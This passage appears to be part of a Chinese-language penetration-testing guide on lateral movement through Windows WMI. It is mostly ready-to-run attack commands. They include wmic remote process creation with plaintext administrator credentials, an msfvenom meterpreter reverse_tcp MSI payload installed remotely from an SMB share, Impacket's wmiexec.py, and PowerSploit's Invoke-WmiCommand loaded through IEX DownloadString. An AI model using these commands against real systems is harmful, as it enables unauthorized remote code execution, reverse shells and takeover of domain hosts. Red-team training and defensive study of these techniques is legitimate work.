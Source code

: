 - 创建远程进程

```powershell
# 通过调用Win32_Process.Create方法在远程主机上创建进程，启动CMD来执行命令，由于WMIC在执行命令时没有回显，因此可以将执行结果写入文件，然后通过别的方式读取文件
wmic /node:10.10.10.137 /user:Administrator /password:H3rmesk1t@2023 process call create "cmd.exe /c ipconfig > C:\result.txt"
```

- 远程安装`MSI`文件

```powershell
# 通过调用Win32_Product.Install方法，可以控制远程主机安装恶意MSI文件，从而获得权限
# 先用Metasploit生成一个恶意的MSI文件
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.31.207 LPORT=4445 -f msi -o shell.msi

# 接着搭建SMB共享服务器，并将生成的MSI文件放入共享目录，接着通过UNC路径进行远程加载恶意的MSI文件并进行安装
mkdir /root/share
python3 smbserver.py evilsmb /root/share -smb2support

wmic /node:10.10.10.137 /user:Administrator /password:H3rmesk1t@2023 product call install PackageLocation="\\192.168.31.207\evilsmb\shell.msi"
```

## 常见利用工具

### WMIExec

`Impacket`项目的`wmiexec.py`能够以全交互或半交互的方式，通过`WMI`在远程主机上执行命令。注意，该工具需要远程主机开启`135`和`445`端口，其中`445`端口用于传输命令执行的回显。

```powershell
python3 wmiexec.py HACK-MY/Administrator:H3rmesk1t\@2023@10.10.10.137

# python3 wmiexec.py <Domian>/<Username>:<Password>@<IP>
```

在`Windows`平台下，可以利用`PyInstaller`来将`wmiexec.py`打包成独立的`exe`可执行文件来运行。

### Invoke-WmiCommand

`Invoke-WmiCommand.ps1`是`PowerSploit`项目中的脚本，可以通过`PowerShell`调用`WMI`来远程执行命令。

```powershell
# 远程加载Invoke-WmiCommand.ps1脚本
IEX(New-Object Net.Webclient).DownloadString('http://IP:Port/Invoke-WmiCommand.ps1')
# 指定远程系统用户名
$User = "HACK-MY\Administrator"
# 指定用户的密码
$Password = ConvertTo-SecureString -String "H3rmesk1t@2023" -AsPlainText -Force
# 将用户名和密码整合，以便导入Credential
$Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User,$Password
# 指定远程主机的IP和要执行的命令
$Remote = Invoke-WmiCommand -Payload {ipconfig} -Credential $Cred -ComputerName "10.10.10.19"
# 输出命令执行回显
$Remote.PayloadOutput
```
